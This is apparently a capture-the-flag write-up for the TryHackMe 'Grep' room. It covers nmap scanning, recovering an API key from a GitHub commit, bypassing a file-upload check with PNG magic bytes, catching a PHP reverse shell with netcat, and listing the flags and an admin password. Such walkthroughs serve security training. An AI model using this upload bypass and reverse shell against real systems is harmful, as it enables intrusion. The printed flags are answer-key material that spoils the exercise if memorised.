










> # [Grep](https://tryhackme.com/room/greprtp)

# Summary
<!-- TOC -->

- [Summary](#summary)
    - [Q1. What is the API key that allows a user to register on the website?](#q1-what-is-the-api-key-that-allows-a-user-to-register-on-the-website)
    - [Q2. What is the first flag?](#q2-what-is-the-first-flag)
    - [Q3. What is the email of the "admin" user?](#q3-what-is-the-email-of-the-admin-user)
    - [Q4. What is the host name of the web application that allows a user to check an email for a possible password leak?](#q4-what-is-the-host-name-of-the-web-application-that-allows-a-user-to-check-an-email-for-a-possible-password-leak)
    - [Q5. What is the password of the "admin" user?](#q5-what-is-the-password-of-the-admin-user)

<!-- /TOC -->

## Q1. What is the API key that allows a user to register on the website?
Recon with `nmap` first.<br>
```
$ nmap -A 10.10.252.167 -Pn
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-24 00:48 EDT
Nmap scan report for 10.10.252.167
Host is up (0.25s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 1cdfdaa745c2e34f124cd4c324867f7f (RSA)
|   256 e5b4c78ed75482e2b69964f79122607e (ECDSA)
|_  256 f8308a09d147142d18e64df5231ee13c (ED25519)
80/tcp  open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
443/tcp open  ssl/http Apache httpd 2.4.41
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.41 (Ubuntu)
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=grep.thm/organizationName=SearchME/stateOrProvinceName=Some-State/countryName=US
| Not valid before: 2023-06-14T13:03:09
|_Not valid after:  2024-06-13T13:03:09
|_http-title: 403 Forbidden
Service Info: Host: ip-10-10-252-167.eu-west-1.compute.internal; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 42.92 seconds
```
We need to add `/etc/hosts` with `IP grep.thm` to access the webapp on port 443.<br>
<br>
If you perform register, you will receive error `Invalid or Expire API key`.<br>
Search with `SearchMe` and php language on github. you will see a [reposity](https://github.com/supersecuredeveloper/searchmecms), follow `api\register.php`, you willv see the code will check field named `X-THM-API-Key` with value `TBA`.<br>
<br>
View in commit history, you will see a commit named `remove key` [link](https://github.com/supersecuredeveloper/searchmecms/commit/db11421db2324ed0991c36493a725bf7db9bdcf6), at this time we have the value of API key.<br>
<br>
**Answer:** ffe60ecaa8bba2f12b43d1a4b15b8f39

## Q2. What is the first flag?
Use `Burp Suite` to modifiy the POST request, change `X-THM-Api-Key` to the above value.
<br>
Successfully register an account to the website.<br>
<br>
After login with the account you just create, the first flag is appear.<br>
<br>
**Answer:** THM{4ec9806d7e1350270dc402ba870ccebb}

## Q3. What is the email of the "admin" user?
In the same folder with `register.php`, another file is `upload.php`, navigate to this file, this page is allow user to upload a file with predefined magicbytes.
<br>
At here, we will upload a [php reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) to bypass magicbytes check.
I use PNG's magicbytes to bypass check function.
```
$ xxd php_reverse_shell.php | head
00000000: 8950 4e47 3c3f 7068 700a 2f2f 2070 6870  .PNG<?php.// php
00000010: 2d72 6576 6572 7365 2d73 6865 6c6c 202d  -reverse-shell -
00000020: 2041 2052 6576 6572 7365 2053 6865 6c6c   A Reverse Shell
00000030: 2069 6d70 6c65 6d65 6e74 6174 696f 6e20   implementation 
00000040: 696e 2050 4850 0a2f 2f20 436f 7079 7269  in PHP.// Copyri
00000050: 6768 7420 2843 2920 3230 3037 2070 656e  ght (C) 2007 pen
00000060: 7465 7374 6d6f 6e6b 6579 4070 656e 7465  testmonkey@pente
00000070: 7374 6d6f 6e6b 6579 2e6e 6574 0a2f 2f0a  stmonkey.net.//.
00000080: 2f2f 2054 6869 7320 746f 6f6c 206d 6179  // This tool may
00000090: 2062 6520 7573 6564 2066 6f72 206c 6567   be used for leg
```
Successfully upload this file to server.<br>
<br>
Prepare the listening on port 4444, then access to this file you will receive the reverse shell from it.<br>
<br>
```
$ nc -lvnp 4444  
listening on [any] 4444 ...
connect to [10.8.61.205] from (UNKNOWN) [10.10.233.1] 41086
Linux ip-10-10-233-1 5.15.0-1038-aws #43~20.04.1-Ubuntu SMP Fri Jun 2 17:10:57 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
 10:45:22 up  1:26,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
In `/var/www/backup`, there is a file named `users.sql`. <br>
```
$ ls /var/www/backup 
users.sql
```
This file is not encrypt, so we can read it directly tp grab admin's email.<br>
<br>
**Answer:** admin@searchme2023cms.grep.thm

## Q4. What is the host name of the web application that allows a user to check an email for a possible password leak?
Read `/etc/hosts`, there is another site on this machine called  `leakchecker.grep.thm`<br>
```$ cat /etc/hosts
127.0.0.1 localhost
127.0.0.1 grep.thm leakchecker.grep.thm

\# The following lines are desirable for IPv6 capable hosts
::1 ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
ff02::3 ip6-allhosts
```
Add this site to hosts file, then access to it.<br>
But I can't access to this site. So I try to scan all port with `nmap -p-`.<br>
<br>
```
$ nmap 10.10.233.1 -p-        
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-24 07:10 EDT
Nmap scan report for leakchecker.grep.thm (10.10.233.1)
Host is up (0.26s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
443/tcp   open  https
51337/tcp open  unknown
```
I found port 51337 is open and successfully access this site.<br>
<br>
**Answer:** leakchecker.grep.thm

## Q5. What is the password of the "admin" user?
Submit admin's email to get password.<br>
<br>
**Answer:** admin_tryhackme!

